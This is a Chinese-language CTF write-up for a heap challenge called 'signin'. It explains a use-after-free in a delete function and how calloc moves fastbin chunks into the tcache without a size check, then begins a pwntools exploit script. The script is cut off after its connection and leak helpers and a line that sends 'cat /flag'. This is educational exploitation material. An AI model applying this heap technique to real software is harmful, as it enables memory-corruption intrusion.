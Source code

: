 漏洞十分明显，del函数free后指针未置零，存在UAF漏洞，但采用了辅助标志变量，封堵了double_free漏洞。

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-103034.png)

edit函数只能调用一次，cnt初值为0，自减后即变为-1，不再满足条件。

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-103202.png)

注意，我们发现在调用backdoor函数时，程序会调用一次`calloc`，而`calloc`的特性会导致直接从`fastbin`中取出Chunk，而在libc的源码中可以看到

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-24-021351.png)

此处会取出fastbin的所有剩余Chunk并将其链入tcache bin。在链入时，会向其fd域写入链表的相关信息，并且发现，在链入过程中，**不会对该chunk做size合法性检查**（此处`tache_put`函数已经明确注明，index的合法性由主调函数确认）！

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-24-021834.png)

那么，若我们在fastbin中事先链入一个非法的chunk位于`ptr-0x10`的位置，将会在置入tcache bin时使得ptr被填入chunk地址。

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

signin=ELF('./signin', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./signin")

def get_address(sh,info=null,start_string=null,end_string=null,offset=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address+offset)))
    return return_address+offset

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,stop=False):
```